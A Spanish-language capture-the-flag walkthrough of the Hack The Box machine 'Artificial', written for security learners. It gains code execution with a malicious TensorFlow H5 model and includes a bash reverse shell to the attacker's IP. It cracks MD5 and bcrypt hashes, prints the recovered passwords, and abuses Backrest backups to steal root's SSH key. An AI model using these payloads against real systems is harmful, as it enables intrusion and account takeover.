---
# Descipcion

Artificial es una máquina Linux de dificultad fácil en Hack The Box que pone a prueba los conocimientos de enumeración web, explotación de modelos de inteligencia artificial y escalada de privilegios. Durante el recorrido, aprovecharemos una vulnerabilidad de ejecución remota de código mediante modelos maliciosos de TensorFlow en formato H5 para obtener acceso inicial al sistema. Posteriormente, extraeremos credenciales de una base de datos SQLite y conseguiremos acceso mediante SSH. Finalmente, analizaremos los permisos del sistema y abusaremos de la aplicación de copias de seguridad Backrest para recuperar una clave privada SSH que nos permitirá obtener privilegios de root.

---


# Enumeracion

## Nmap

> Comenzamos realizando un escaneo de todos los puertos TCP para identificar los servicios expuestos en la máquina.

```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.232.51
```



> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener más información sobre los servicios y ejecutar los scripts predeterminados de Nmap.

```bash
$ nmap -p22,80 -sC -sV 10.129.232.51
```





## WEB

> Utilizamos WhatWeb para identificar las tecnologías empleadas por la aplicación web.

```bash
$ whatweb http://artificial.htb
```



- Web


> Nos encontramos con una página web que, a simple vista, permite registrar una cuenta e iniciar sesión. Vamos a explorarla para identificar las funcionalidades disponibles.


> Realizamos una enumeración de directorios y archivos mediante Gobuster, utilizando una lista de rutas de SecLists y buscando también extensiones PHP y TXT.

```bash
$ gobuster dir -u http://artificial.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50 -x php,txt
```



> No encontramos nada especialmente interesante durante la enumeración de directorios, así que vamos a registrarnos e iniciar sesión en la página web.




> Una vez dentro, encontramos un menú que permite subir un modelo de `IA`. Vamos a revisar los archivos `requirements` y `Dockerfile` para averiguar qué tecnologías utiliza la aplicación y qué requisitos deben cumplir los modelos.

- `Requirements`



- `Dockerfile`



> Por lo que vemos, para subir modelos de `IA` necesitamos crearlos específicamente con `TensorFlow` en su versión `2.13.1`.

> Si intentamos subir un archivo, comprobamos que la aplicación solicita un fichero con extensión `.h5`.



> Intento modificar la petición de subida mediante `Burp Suite` para probar si es posible enviar otro tipo de archivo, como un `PHP`, e intentar ejecutar comandos. Sin embargo, parece que esta vía no funciona.
>
> Por tanto, deduzco que es posible que el servidor procese o ejecute el modelo `.h5` que recibe. Para comprobarlo, busco información sobre posibles vulnerabilidades de ejecución de código en `TensorFlow` utilizando este formato.

# Shell como app

## TensorFlow

> Encuentro la siguiente publicación, que explica cómo conseguir ejecución remota de código mediante un modelo malicioso de TensorFlow:

```
https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model
```

> En esta web encontramos un código en `Python` que permite generar un archivo `.h5` capaz de ejecutar un comando cuando se procesa el modelo.

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

> Como la página indica que debemos utilizar una versión específica de TensorFlow, vamos a crear una imagen de `Docker` utilizando el `Dockerfile` que encontramos en la web.

> Nos situamos en el directorio donde tenemos el archivo `Dockerfile` y ejecutamos el siguiente comando para construir la imagen:

```bash
$ docker build -t ia .
```

> A continuación, creamos un contenedor y compartimos el directorio actual con él para poder acceder a los archivos desde dentro del entorno:

```bash
$ docker run -it -v $(pwd):/share ia:latest
```

> Una vez dentro del contenedor, accedemos al directorio `/share` y creamos un archivo `.py` con el siguiente código. En este caso, modificamos el comando para realizar una petición HTTP a nuestra máquina, lo que nos permitirá comprobar si el servidor procesa el modelo.

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("curl http://10.10.14.154")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

> Ejecutamos el script para generar el archivo `exploit.h5`. Después, volvemos a la aplicación web y lo subimos.
>
> Antes de ejecutar el modelo, levantamos un servidor HTTP con Python en nuestra máquina. A continuación, seleccionamos el modelo que acabamos de subir y pulsamos en `View Predictions`. Si el código se ejecuta durante el procesamiento del modelo, deberíamos recibir una petición HTTP en nuestro servidor.


```bash
$ python3 -m http.server 80
```

### Subida y ejecución del modelo







> Comprobamos que podemos ejecutar comandos mediante el procesamiento del modelo. Por tanto, vamos a modificar el script para intentar obtener una `revshell` hacia nuestra máquina.

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.154/7777 0>&1'")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

> Realizamos el mismo procedimiento que antes, pero esta vez nos preparamos para recibir la conexión inversa.

- Abrimos un listener en el puerto `7777`:

```bash
$ nc -nvlp 7777
```

> Subimos el nuevo archivo `.h5` y ejecutamos el modelo desde la aplicación web.



# Bash como gael

## Enumeracion

> Una vez obtenida la shell, vamos a enumerar los usuarios del sistema para identificar posibles cuentas de interés.

> Ejecutamos los siguientes comandos:

```bash
$ ls /home
$ cat /etc/passwd | grep "sh"
```



> Identificamos al usuario `gael`. Como todavía no hemos encontrado el archivo `user.txt`, vamos a intentar movernos a esta cuenta.
>
> Para ello, revisamos los archivos de la aplicación web y encontramos una base de datos.



## SQLite

> Abrimos la base de datos con `sqlite3`:

```bash
% sqlite3 users.db
```

> Listamos las tablas disponibles:

```sql
.tables
```



> Consultamos el contenido de la tabla `user`:

```sql
select * from user;
```



> Encontramos un usuario llamado `gael` y una contraseña que parece estar almacenada mediante un hash MD5. Vamos a intentar recuperarla utilizando `John the Ripper`.

> El hash encontrado es el siguiente:

```text
c99175974b6e192936d97224638a34f8
```

> Ejecutamos John con el formato `raw-md5` y la lista de contraseñas `rockyou.txt`:

```bash
$ sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



- John consigue recuperar la contraseña:

```text
user: gael
pass: mattp005numbertwo
```

> Con las credenciales obtenidas, intentamos conectarnos por SSH al usuario `gael`.

```bash
$ ssh gael@10.129.232.51
```



# Bash como root

## Enumeracion

> Una vez dentro como `gael`, comenzamos a enumerar el sistema en busca de posibles vías de escalada de privilegios.
>
> No encontramos ninguna entrada interesante en `sudoers`, ni tampoco binarios con permisos `SUID` o `Capabilities` que destaquen. Por tanto, vamos a revisar los grupos a los que pertenece nuestro usuario.

Ejecutamos:

```bash
$ id
```



> Observamos que pertenecemos al grupo `sysadm`. Vamos a buscar los archivos del sistema que pertenezcan a este grupo.

```bash
$ find / -group "sysadm" 2>/dev/null
```



> Copiamos el archivo encontrado a `/tmp`, lo extraemos y examinamos su contenido para averiguar de qué se trata.



## Backrest

### Obteniendo contraseña de backrest

> Descubrimos que se trata de una aplicación de copias de seguridad llamada `Backrest`, que utiliza el puerto `9898`.
>
> Como estamos ante una herramienta de backup, vamos a revisar los archivos de configuración del servicio para buscar información que nos permita acceder a ella.

> Encontramos una carpeta oculta llamada `.config`, en la que hay un usuario y una contraseña.




> Vamos a comprobar si el servicio está escuchando en el puerto `9898`.

```bash
netstat -tunl
```




> Como el servicio está disponible en el puerto `9898`, vamos a utilizar el reenvío de puertos SSH para acceder a él desde nuestra máquina local.
>
> Redirigimos el puerto remoto `9898` al puerto local `9000`.

```bash
$ ssh -L 9000:127.0.0.1:9898 gael@10.129.232.51
```

> Una vez establecida la conexión, accedemos a la aplicación desde el navegador utilizando el puerto local reenviado.




> La aplicación nos solicita un usuario y una contraseña. Vamos a intentar recuperar la contraseña asociada a las credenciales que encontramos anteriormente.
>
> El hash de la contraseña está codificado en `Base64`, por lo que primero debemos decodificarlo para obtener su valor en formato de hash `bcrypt`.

### Crackeando contraseña

- Ejecutamos:

```bash
$ echo JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP | base64 -d
```



- Obtenemos el siguiente hash:

```text
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

> Guardamos el hash en un archivo llamado `hash.txt` y utilizamos John the Ripper para intentar recuperar la contraseña mediante un ataque de diccionario.

```bash
$ sudo john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



- John recupera las siguientes credenciales:

```text
user: backrest_root
pass: !@#$%^
```

### Inicio de sesión en Backrest

> Con estas credenciales, accedemos a la aplicación web de Backrest.



## Explotando Backrest

> Para poder crear una copia de seguridad de los archivos que queramos, primero debemos configurar un repositorio.



> Esta es la única configuración que vamos a establecer en el repositorio.

A continuación, añadimos un `plan` y especificamos la ruta `/root` como directorio que queremos incluir en la copia de seguridad.



> Una vez creado el plan, accedemos a él y ejecutamos el backup.



> Cuando termine la copia de seguridad, hacemos clic sobre ella para explorar su contenido.



> Dentro del backup, buscamos el directorio `.ssh` y localizamos el archivo `id_rsa`. A continuación, seleccionamos la opción de restaurar y, cuando nos solicite una ruta de destino, introducimos `/tmp`.





> Ahora, en la misma pestaña del backup, veremos que aparece una nueva línea correspondiente a la operación de restauración.



> Hacemos clic en esa nueva entrada y descargamos en nuestro sistema el archivo `id_rsa` restaurado.



> Por último, descargamos el archivo, lo extraemos y utilizamos la clave privada `id_rsa` para conectarnos por SSH como `root`.

```bash
$ ssh root@10.129.232.51 -i id_rsa
```



> Con esto conseguimos acceso como `root` en la máquina **Artificial**.